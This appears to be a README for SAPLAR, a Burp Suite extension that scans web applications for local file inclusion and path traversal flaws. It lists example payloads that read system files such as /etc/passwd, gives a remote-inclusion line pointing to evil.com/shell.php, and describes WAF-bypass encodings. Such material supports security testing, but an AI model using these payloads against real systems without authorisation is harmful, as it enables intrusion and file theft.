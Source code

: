 # SAPLAR
SAPLAR - LFI &amp; Path Traversal Scanner


## Project Overview

SAPLAR is a powerful Burp Suite extension designed to detect Local File Inclusion (LFI) and Path Traversal vulnerabilities in web applications. It is specifically built for penetration testers, bug bounty hunters, and security researchers who need an automated, flexible, and highly efficient LFI scanner within Burp Suite.

This tool injects LFI payloads into various parts of the HTTP request, including:

- **GET Parameters**
- **POST Data**
- **Cookies**
- **HTTP Headers**

SAPLAR analyzes the server response to identify common LFI signatures and indicators. It features automated active scanning, manual scanning, and multiple encoding options to bypass security filters.


## Features

### Multi-Vector LFI Injection

SAPLAR automatically injects payloads into multiple request locations:

- **Query Parameters (?file=../../etc/passwd)**
- **POST Body (file=../../etc/passwd)**
- **Cookies (session=../../etc/passwd)**
- **HTTP Headers (User-Agent, Referer, X-Forwarded-For, Authorization, etc.)**



### Wide LFI Payload Database

Includes hundreds of payloads targeting:

- **Linux systems (/etc/passwd, /proc/self/environ, /var/log/auth.log)**
- **Windows systems (C:\Windows\win.ini, C:\boot.ini, C:\Users\Administrator\NTUSER.DAT)**
- **PHP Wrappers (php://filter/convert.base64-encode/resource=index.php)**
- **Log file extraction (../../../../var/log/apache2/access.log)**
- **Remote inclusion possibilities (http://evil.com/shell.php)**



### Automatic Encoding & WAF Bypass

Payloads can be encoded automatically to bypass security protections like WAF (Web Application Firewalls) and input validation filters.

- **Base64 Encoding**
- **URL Encoding (Single, Double, Triple)**
- **HEX Encoding**
- **Unicode Encoding**



### Signature-Based Response Analysis

SAPLAR scans responses for known LFI indicators, such as:

- **System Users: "root:x:0:0:", "NT AUTHORITY\\SYSTEM"**
- **Configuration Files: "[boot loader]", "kernel.core_pattern"**
- **Error Messages: "failed to open stream", "No such file or directory"**
- **False Positive Filtering: Detects standard 403/404 responses**



### Header & Cookie-Based Injection

Injects LFI payloads into common headers:

- **User-Agent**
- **Referer**
- **X-Forwarded-For**
- **Authorization**
- **X-Api-Key**
- **Accept-Charset**

Cookie Manipulation: Tries injecting LFI payloads into cookie values.




### GUI Integration in Burp Suite

SAPLAR provides a user-friendly graphical interface in Burp Suite.

- **A dedicated LFI Scan tab to manage scans.**
- **Right-click on any request in Burp and select "Scan for LFI".**
- **Real-time exploit status updates (Exploited, Not Vulnerable, Possible LFI).**

